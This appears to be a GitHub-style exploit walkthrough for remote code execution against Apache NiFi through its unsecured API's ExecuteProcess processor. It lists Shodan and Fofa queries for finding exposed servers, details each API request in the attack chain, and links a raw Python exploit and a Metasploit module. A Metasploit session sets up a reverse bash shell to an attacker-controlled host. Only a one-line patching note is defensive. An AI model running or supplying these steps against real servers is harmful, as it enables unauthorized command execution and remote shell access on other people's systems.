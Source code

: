 # Apache NiFi Processor RCE (Oct 3 2020)
Apache NiFi is a software project to automate the flow of data between software systems.  
This module uses the NiFi API to create an ExecuteProcess processor that will execute OS commands. The API must be unsecured (or credentials provided) and the ExecuteProcess processor must be available. An ExecuteProcessor processor is created then is configured with the payload and started. The processor is then stopped and deleted.

API Executing Process: https://nifi.apache.org/docs/nifi-docs/components/org.apache.nifi/nifi-standard-nar/1.12.1/org.apache.nifi.processors.standard.ExecuteProcess/  

Vulnerable architectures: **x86, x64**  
Vulnerable platforms: **Linux, OSX, Unix, Windows**  
Vulnerable protocols: **http, https**  

**Please be aware that this exploit leaves signs of a compromise in a log file (Example: SQL injection data found in HTTP log) and modifies some configuration setting on the target machine, this is not a guide on how to exploit others, this is a guide on how to reproduce the vulnerability and how to fix it.**  

Python Raw Exploit: https://raw.githubusercontent.com/imjdl/Apache-NiFi-Api-RCE/master/exp.py  

MetaSploit Exploit: https://dl.packetstormsecurity.net/2011-exploits/apache_nifi_processor_rce.rb.txt  
MetaSploit Linux Default Payload: **cmd/unix/reverse_bash**  
MetaSploit Windows Default Payload: **cmd/windows/reverse_powershell**  

Shodan Query: `title:"NiFi"`  
Fofa Query: `title=="NiFi"`  

# How does the Exploit work
## GET /nifi-api/access/config: Used to check whether the target is running NiFi and whether authentication is required.  
Example Output:
<pre>{
    "config": {
	    "supportsLogin": true
	}
}</pre>

## POST /nifi-api/access/token: Used to obtain an access token using supplied credentials (if authentication is required).  
Content-Type: **application/x-www-form-urlencoded**  
HTTP Parameters: **username, password**  
| Status code  | Description |
|---|---|
| 200	| Successful operation. |
| 400	|	NiFi was unable to complete the request because it was invalid. The request should not be retried without modification. |
| 403	|	Client is not authorized to make this request. |
| 409	|	Unable to create access token because NiFi is not in the appropriate state. (i.e. may not be configured to support username/password login. |
| 500	|	Unable to create access token because an unexpected error occurred. |  

## GET /nifi-api/process-groups/root: Used to obtain the ID of the root process group.  
Example Output:
<pre>{
    "revision": {REDACTED},
    "id": "value",
    "uri": "value",
    "position": {REDACTED},
    "permissions": {REDACTED},
    "bulletins": [{REDACTED}],
    "disconnectedNodeAcknowledged": true,
    "component": {REDACTED},
    "status": {REDACTED},
    "versionedFlowSnapshot": {REDACTED},
    "runningCount": 0,
    "stoppedCount": 0,
    "invalidCount": 0,
    "disabledCount": 0,
    "activeRemotePortCount": 0,
    "inactiveRemotePortCount": 0,
    "versionedFlowState": "value",
    "upToDateCount": 0,
    "locallyModifiedCount": 0,
    "staleCount": 0,
    "locallyModifiedAndStaleCount": 0,
    "syncFailureCount": 0,
    "localInputPortCount": 0,
    "localOutputPortCount": 0,
    "publicInputPortCount": 0,
    "publicOutputPortCount": 0,
    "parameterContext": {REDACTED},
    "inputPortCount": 0,
    "outputPortCount": 0
}</pre>
## POST /nifi-api/process-groups/\<ROOT-PROCESSOR-GROUP-ID\>/processors: Used to create an ExecuteProcess processor in the root group.  
Content Type: **application/json**  
Post Data:
<pre>{
    "component": {
        "type": "org.apache.nifi.processors.standard.ExecuteProcess"
    },
    "revision": {
        "version": 0
    }
}</pre>

## PUT /nifi-api/processors/\<NEW-PROCESSOR-ID\>: Used to configure the new ExecuteProcess processor and run the OS command.
## PUT /nifi-api/processors/\<NEW-PROCESSOR-ID\>/run-status: Used to stop the new ExecuteProcess processor prior to deletion.  
## DELETE /nifi-api/processors/\<NEW-PROCESSOR-ID\>/threads: Used to terminate threads in case stopping failed.
## DELETE /nifi-api/processors/\<NEW-PROCESSOR-ID\>: Used to delete the processor.

## Using apache_nifi_processor_rce's Exploit
<pre>msf6 > use exploit/multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash</pre>
## Local IP for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LHOST 192.168.60.7
LHOST => 192.168.60.7</pre>
## Local Port for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LPORT 4444
LPORT => 4444</pre>
## Remote IP for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RHOST 192.168.60.57
RHOST => 192.168.60.57</pre>
## Remote Port for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RPORT 8080
RPORT => 8080</pre>
## Checking Current Exploit Options
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > show options</pre>
![msf1](https://user-images.githubusercontent.com/94451745/149518743-e2ad0802-819a-4037-9798-8422f0c236c4.png)
## Running Exploit
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > run</pre>
![msf2](https://user-images.githubusercontent.com/94451745/149520071-97c27099-82df-493b-9ead-a5a96afcc29b.png)
## Vulnerability patching
Upgrade to the latest version, add/change current credentials and setup an IP whitelist in your current firewall settings.
